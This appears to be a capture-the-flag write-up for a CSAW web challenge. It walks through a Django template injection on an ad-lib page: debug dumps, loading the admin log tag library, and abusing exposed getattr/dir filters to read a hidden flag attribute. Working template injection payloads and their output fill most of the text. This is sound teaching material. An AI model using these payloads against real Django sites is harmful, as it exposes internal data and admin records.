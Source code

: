 # Shia Labeouf-off!

One of my teammates mentioned that it was a template injection, so I focused on the ad-lib page.

**http://web.chal.csaw.io:5490/ad-lib/**

So first thing to do was look at what templates we could use, using the [Django Documentation for Built in Template and Filter Tags](https://docs.djangoproject.com/en/1.11/ref/templates/builtins/)

Unfortunately, the only useful ones were
```
{% debug %}
{% load somelibrary %}
{% load sometag from somelibrary %}
```
We can clean up the debug ouput adding a force_escape filter and pre tags:
```
<pre>{% filter force_escape %} {% debug %} {% endfilter %}</pre>
```
Which gives us the following:
```
{'block': <Block Node: content. Contents: [<TextNode: u'\n<pre>'>
<django.template.defaulttags.FilterNode object at 0x7f135efbb3d0>
<TextNode: u'</pre>\n'>]>}{'block': <Block Node: body. Contents:
[<TextNode: u'\n<div class="container">\n'>,
<Block Node: content. Contents: [<TextNode: u'\n            <h1>Example '>]>,
<TextNode: u'\n\n        </div>\n    </di'>]>}{}
{'DEFAULT_MESSAGE_LEVELS': {'DEBUG': 10,
                            'ERROR': 40,
                            'INFO': 20,
                            'SUCCESS': 25,
                            'WARNING': 30},
    u'csrf_token': <SimpleLazyObject: <function _get_val at 0x7f135ef32d70>>,
    'messages': <django.contrib.messages.storage.fallback.FallbackStorage object at 0x7f135efbb7d0>,
    'perms': <django.contrib.auth.context_processors.PermWrapper object at 0x7f135ef61350>,
    u'request': <WSGIRequest: POST '/ad-lib/'>,
    'user': <SimpleLazyObject: <function <lambda> at 0x7f135ef32de8>>}
    {'adjective': '<img src="https://media1.giphy.com/media/TxXhUgEUWWL6/200.webp#129-grid1" />',
    'mrpoopy': <ad-lib.someclass.Woohoo instance at 0x7f135f1136c8>,
    'noun': '<img src="https://media0.giphy.com/media/arNexgslLkqVq/200.webp#70-grid1" />',
    'verb': '<img src="https://media3.giphy.com/media/R0vQH2T9T4zza/200.webp#165-grid1" />'}{'False': False, 'None': None, 'True': True}
```
Note: While debug gives us both the current context and the imported modules, I excluded the module section because it's very long.

While looking at the debug output, out of the very long list of modules, I noticed that template tags were being imported, and decided to try importing some of these.

While attempting to load adlib_extras, I accidentally misspelled it and received an error page:
```
TemplateSyntaxError at /ad-lib/
'adlib_extra' is not a registered tag library. Must be one of:
adlib_extras
admin_list
admin_modify
admin_static
admin_urls
cache
i18n
l10n
log
pools_extras
static
staticfiles
tz
```
Huh, maybe I can enumerate tags in a library using the version of load that loads a specific tag?
```
TemplateSyntaxError at /ad-lib/
'test' is not a valid tag or filter in tag library 'pools_extras'
```
I verified it's not possible to do by examining the Django source code. Oddly enough, they choose to enumerate the tag libraries available, but not the tags in the individual libraries.

However, it dawned on me that while Django's documentation does list the normal built in template tags, the documentation does not list some of the ones I expected to see, and realized that the documentation did not list ones imported from modules, so I started combing the source for more template tags.

After looking through the source, I found what I was looking for, the template tags for the admin module:

[https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py](https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py)

I was then able to write my own crude implementation of the Django admin log.
```
{% load log %}
{% get_admin_log 1000 as admin_log %}
<ul>
{% for gLog in admin_log %}
<li>{{gLog.user}} {{gLog.content_type}} {{gLog.object_id}} {{gLog.object_repr}} {{gLog.action_flag}} {{gLog.change_message}} {{gLog.action_time}}</li>
{% endfor %}
</ul>
```
Which gives us this:
```
admin poll 3 asdf 1 [{"added": {}}] Sept. 13, 2017, 8:08 p.m.
admin poll 1 Which one would you take into battle? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
admin poll 2 Who is the most Shia of them all? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
admin choice 8 https://media0.giphy.com/media/SPWzxnP0ga2t2/200w.webp#124-grid3 1 Sept. 13, 2017, 2:54 a.m.
admin choice 7 https://media0.giphy.com/media/l2JdV73x6Ifdub8ly/200.webp#93-grid3 1 Sept. 13, 2017, 2:54 a.m.
admin choice 6 https://media2.giphy.com/media/Oh4URwX1apHws/200.webp#66-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 5 https://media3.giphy.com/media/KCd6BFerCh3TG/200.webp#58-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 4 https://media2.giphy.com/media/MVCqaCH3Dzt3q/200.webp#52-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 3 https://media0.giphy.com/media/xT5LMvK0kjdURtXa48/200.webp#38-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 No fields changed. Sept. 13, 2017, 2:50 a.m.
admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
admin choice 2 https://media2.giphy.com/media/3oz8xFfwgt4ncWYtva/200.webp#17-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
admin choice 2 https://media3.giphy.com/media/l2Je4rm0DCduJ6QJG/200.webp#16-grid3 1 Sept. 13, 2017, 2:50 a.m.
admin choice 1 https://media2.giphy.com/media/3o7TKP9ln2Dr6ze6f6/giphy.gif 1 Sept. 13, 2017, 2:49 a.m.
admin choice 1 Green 3 Sept. 13, 2017, 2:47 a.m.
admin choice 2 Blue 3 Sept. 13, 2017, 2:47 a.m.
admin choice 3 Red 3 Sept. 13, 2017, 2:47 a.m.
admin choice 4 Yellow 3 Sept. 13, 2017, 2:47 a.m.
admin choice 5 Black 3 Sept. 13, 2017, 2:47 a.m.
admin choice 6 Orange 3 Sept. 13, 2017, 2:47 a.m.
admin choice 7 Other 3 Sept. 13, 2017, 2:47 a.m.
admin choice 8 Paul 3 Sept. 13, 2017, 2:47 a.m.
admin choice 9 John 3 Sept. 13, 2017, 2:47 a.m.
admin choice 10 RIngo 3 Sept. 13, 2017, 2:47 a.m.
admin choice 11 George 3 Sept. 13, 2017, 2:47 a.m.
admin poll 1 What is your favorite color 2 Changed question. Aug. 16, 2013, 1:08 p.m.
admin poll 2 Favorite Beatle 2 Changed question. Aug. 16, 2013, 1:08 p.m.
admin poll 2 Favorite Beatle? 1 Aug. 16, 2013, 1:08 p.m.
admin poll 1 What is your favorite color? 1 Aug. 16, 2013, 11:22 a.m.
```
Unfortunately, the flag was not in here, but upon looking at the log, I noticed that there was a third poll, even though there were only 2 polls on the poll page. That seemed odd, so I decided to check it out.

**http://web.chal.csaw.io:5490/polls/3/**

Visiting this 3rd poll gives us an exception, but in the traceback, I noticed that the traceback gives us some of the code in **./polls/templatetags/pools_extras.py**, which you'll recognize from the earlier debug output.
```
@register.filter(name='getme')
def getme(value, arg):
    return getattr(value, arg)
@register.filter(name='checknum')
def checknum(value):
    check(value) 
@register.filter(name='listme')
def listme(value):
    return dir(value)
def check(value):
    if value > 2:
        raise Exception("Our infrastructure can't support that many Shias!")
```
Having spent the last couple hours learning Django template tags and filters, I recognized these as Django template filter definitions, exposing some python functions, **dir** and **getattr**.

It became pretty clear that I was to use these to get the flag, but from where? Going to back to the debug context output, **mrpoopy** stands out as exposing a class.
```
{{mrpoopy | listme}}
```
Which shows us the the attributes of mrpoopy:
```	
['Woohoo', '__doc__', '__flag__', '__module__']
```	
Now we know where the flag is, let's get it:
```
{{mrpoopy | getme:"__flag__" }}
```	
Which gives us the flag:
```
flag{wow_much_t3mplate}
```